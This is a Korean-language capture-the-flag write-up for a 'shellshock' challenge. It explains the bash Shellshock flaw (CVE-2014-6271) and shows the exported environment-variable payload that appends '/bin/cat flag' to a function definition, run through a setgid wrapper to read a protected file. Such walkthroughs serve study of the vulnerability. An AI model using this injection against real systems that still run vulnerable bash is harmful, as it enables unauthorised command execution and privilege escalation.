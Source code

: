 shellshock Solution
========================

![](./images/1.png)

이번 문제는 GNU bash의 Shellshock 취약점에 관련된 문제이다. ssh를 통해 접속해 확인해보자.

![](./images/2.png)

현재 사용자와 디렉터리 정보이다. 현재 권한으로 실행 가능한 bash, shellshock 파일과 열람 가능한 shellshock.c 소스 코드 파일이 있다. shellshock.c의 내용을 살펴보자.

- shellshock.c

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

내용은 매우 간단하다. ruid, euid, suid, rgid, egid, sgid를 모두 현재의 egid로 설정 후 /home/shellshock/bash를 실행해 'echo shock_me' 명령어를 실행한다. shellshock 파일은 그룹(shellshock_pwn) 실행 권한에 setuid bit가 설정되어 있다. 따라서 shellshock을 실행했을 때 egid는 shellshock_pwn의 gid인 1020이 된다.(id shellshock_pwn 명령어로 확인해 본 결과 1020 이었다.) /home/shellshock/bash를 1020의 권한으로 실행하게 되는 것이다. 여기서 Shellshock 취약점을 사용하게 되는데, 해당 취약점에 대해 자세히 알아보았다.

---------------------------------

### Shellshock 취약점 (CVE-2014-6271)

Shellshock 취약점은 GNU bash 4.3 이전 버전에서 40년 이상 방치된 심각한 취약점이다. bash shell의 환경 변수 선언과 자식 shell에서의 환경 변수 파싱 및 실행에 관련해 취약점이 발생했다. 환경 변수로 bash 함수를 선언할 수 있는데, 이 때 함수 뒤에 임의의 명령어를 추가하면 자식 shell이 실행될 때 해당 임의의 명령어가 실행되는 것이다. 

```bash
$ export x='() { echo hi; }'
```
위와 같이 환경변수 x를 설정하면 현재 shell에서는 x로 "echo hi"를 실행할 수 없다. 하지만 여기서 Shellshock에 취약한 bash를 자식 shell로 실행하면 export한 환경변수 x가 파싱되면서 자동으로 함수로 취급되어 자식 shell에서는 정상적으로 "echo hi"를 실행할 수 있다. 여기서 문제가 발생한다. 함수 선언 뒤에 세미콜론을 붙여 다른 명령어를 이어서 작성하면 자식 bash shell이 실행될 때 해당 명령어가 자동으로 실행된다. 

```bash
$ export x='() { echo hi; }; /bin/cat flag'
$ ./bash
```

위와 같이 환경변수를 선언하고 "./bash" (/home/shellshock/bash) 를 실행하면 "Permission denied" 메시지가 뜬다. /bin/cat flag 명령은 정상적으로 실행되었지만 해당 공격은 권한 상승을 얻을 수는 없으므로 해당 메시지가 발생한 것이다. 하지만 shellshock.c 에서는 shellshock_pwn 의 권한으로 ./bash 를 실행하고 있다. 

```bash
$ export x='() { echo hi; }; /bin/cat flag'
$ ./shellshock
```

![](./images/3.png)

shellshock_pwn의 권한으로 /bin/cat flag가 실행되어 flag의 내용을 얻었다. "only if ..." 가 이번 문제의 flag이다.